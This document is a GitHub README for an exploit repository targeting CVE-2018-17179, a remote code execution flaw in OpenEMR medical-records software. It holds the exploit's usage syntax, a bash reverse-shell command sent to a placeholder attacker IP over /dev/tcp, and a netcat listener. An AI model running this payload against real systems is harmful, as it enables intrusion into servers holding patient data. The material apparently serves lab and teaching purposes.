



# CVE-2018-17179-OpenEMR

> ⚠️ **Disclaimer**  
This repository is intended **strictly for educational and research purposes only**.  
The information and code provided here can be used in **controlled environments**, such as private lab machines.

**Unauthorized use of this code against systems you do not own or have explicit permission to test is illegal and unethical.**  
The author is **not responsible** for any misuse or damages caused.

---

## 🔍 About the Vulnerability

**CVE-2018-17179** affects **OpenEMR**, a widely-used open-source electronic medical record and practice management software.  
A flaw in the authentication mechanism of the `rest_routes.php` endpoint allows an authenticated user to execute arbitrary commands on the server.

This can lead to **Remote Code Execution (RCE)** under the context of the web server user.

- **Vulnerability Type:** Authenticated Remote Code Execution  
- **Affected Component:** `interface/main/main_screen.php` via `rest_routes.php`  
- **Authentication Required:** ✅ Yes  
- **Severity:** Critical  
- **CVSS Score:** 9.8 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)

---

## 🧾 References

- [Exploit-DB Entry – 45161](https://www.exploit-db.com/exploits/45161)
- [OpenEMR GitHub Repository](https://github.com/openemr/openemr)
- [CVE Details – CVE-2018-17179](https://www.cvedetails.com/cve/CVE-2018-17179/)
- [NVD CVE Report](https://nvd.nist.gov/vuln/detail/CVE-2018-17179)

---

## 🛠 Exploit Overview

This repository provides a **modified version** of the public exploit from Exploit-DB:

- **Exploit Title:** OpenEMR 5.0.1 – Authenticated RCE  
- **ExploitDB ID:** [45161](https://www.exploit-db.com/exploits/45161)  
- **Language:** Python 2  
- **Authentication Required:** Yes

In this customized exploit:
- You can specify your command payload directly (e.g., reverse shell).
- The exploit allows clean CLI execution for flexibility.
- Sensitive fields like session cookie generation and command injection logic have been preserved from the original.

---

## 💥 Demonstration

### 🔐 Login Page

Targeted a local test OpenEMR login panel:




---

## 📂 Exploit Usage


Usage: python2 exploit.py <target_url> -u <username> -p <password> -c <command>

Example:
python2 exploit.py http://<target>/openemr -u admin -p secretpass -c 'id'
```

- Make sure you have Python 2 installed.
- The user must have access to the vulnerable `rest_routes.php` endpoint.

```


Execute Exploit

Ran the modified exploit script with a bash reverse shell payload:

```bash
python2 exploit.py http://<target>/openemr -u <username> -p <password> -c 'bash -i >& /dev/tcp/<your-ip>/4444 0>&1'
```



### Step 3 – Reverse Shell Caught

Netcat listener on port 4444 successfully received a reverse shell:

```bash
nc -nvlp 4444
```


## 📖 Medium Blog

Check out the detailed walkthrough and theory on my Medium post:  
👉 [Read the blog on Medium](https://medium.com/cyberquestor/from-medical-records-to-remote-shells-exploiting-openemr-cve-2018-17179-7fdcbbb85b13)